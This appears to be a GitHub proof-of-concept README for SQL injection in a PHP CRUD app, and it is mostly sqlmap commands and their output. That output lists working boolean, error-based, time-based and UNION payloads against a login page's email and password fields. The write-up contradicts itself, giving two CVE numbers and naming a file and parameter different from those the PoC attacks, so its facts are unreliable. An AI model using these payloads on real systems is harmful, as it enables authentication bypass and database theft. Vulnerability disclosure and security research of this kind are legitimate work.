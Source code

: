 # Simple-CRUD-Functionality-SQLi-POC - CVE-2023-48078
+ Exploit Author: esasadam06
# Vendor Homepage
+ https://code-projects.org/simple-crud-functionality-in-php-with-source-code
# Software Link
+ https://download.code-projects.org/details/8e863682-a839-4645-94e0-ae769c83635d
# Overview
+ Simple CRUD Functionality SQLi POC is susceptible to a significant security vulnerability that arises from insufficient protection on the 'title' parameters in the hospitalLogin.php file. This flaw can potentially be exploited to inject malicious SQL queries, leading to unauthorized access and extraction of sensitive information from the database.
# Vulnerability Details
+ CVE ID: CVE-2023-46014
+ Affected Version: Simple CRUD Functionality V1.0
+ Vulnerable File: /add.php
+ Parameter Names: title
+ Attack Type: Local
# References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-48078
+ https://nvd.nist.gov/vuln/detail/CVE-2023-48078
# Description
+ The lack of proper input validation and sanitization on the 'hemail' and 'hpassword' parameters allows an attacker to craft SQL injection queries, bypassing authentication mechanisms and gaining unauthorized access to the database


# Proof of Concept (PoC) : 
+ `sqlmap -u "http://localhost/bloodbank/file/hospitalLogin.php" --method POST --data "hemail=test@test&hpassword=test&hlogin=Login" -p hemail --risk 3 --level 3 --dbms mysql --batch --current-db`

```
---
Parameter: hemail (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: hemail=test@test' AND 3778=(SELECT (CASE WHEN (3778=3778) THEN 3778 ELSE (SELECT 9754 UNION SELECT 4153) END))-- -&hpassword=test&hlogin=Login

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: hemail=test@test' OR (SELECT 3342 FROM(SELECT COUNT(*),CONCAT(0x716a7a6b71,(SELECT (ELT(3342=3342,1))),0x7170767a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- NSQu&hpassword=test&hlogin=Login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: hemail=test@test' AND (SELECT 5639 FROM (SELECT(SLEEP(5)))ulgW)-- QYnb&hpassword=test&hlogin=Login

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: hemail=test@test' UNION ALL SELECT CONCAT(0x716a7a6b71,0x567a4f6f4b556976707668696878754f48514d6e63424a706f70714e6f62684f504a7a565178736a,0x7170767a71),NULL,NULL,NULL,NULL,NULL-- -&hpassword=test&hlogin=Login
---
```
+ `sqlmap -u "http://localhost/bloodbank/file/hospitalLogin.php" --method POST --data "hemail=test@test&hpassword=test&hlogin=Login" -p hpassword --risk 3 --level 3 --dbms mysql --batch --current-db`

```
---
Parameter: hpassword (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: hemail=test@test&hpassword=test' AND 4940=(SELECT (CASE WHEN (4940=4940) THEN 4940 ELSE (SELECT 5623 UNION SELECT 6789) END))-- -&hlogin=Login

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: hemail=test@test&hpassword=test' OR (SELECT 8207 FROM(SELECT COUNT(*),CONCAT(0x716a7a6b71,(SELECT (ELT(8207=8207,1))),0x7170767a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- TrPm&hlogin=Login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: hemail=test@test&hpassword=test' AND (SELECT 3303 FROM (SELECT(SLEEP(5)))PdPC)-- lTZZ&hlogin=Login

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: hemail=test@test&hpassword=test' UNION ALL SELECT NULL,CONCAT(0x716a7a6b71,0x5271514f636f6f46476f6365424b6e6166454c725751704d6f6c467968626a4e725172785955416d,0x7170767a71),NULL,NULL,NULL,NULL-- -&hlogin=Login
---
```
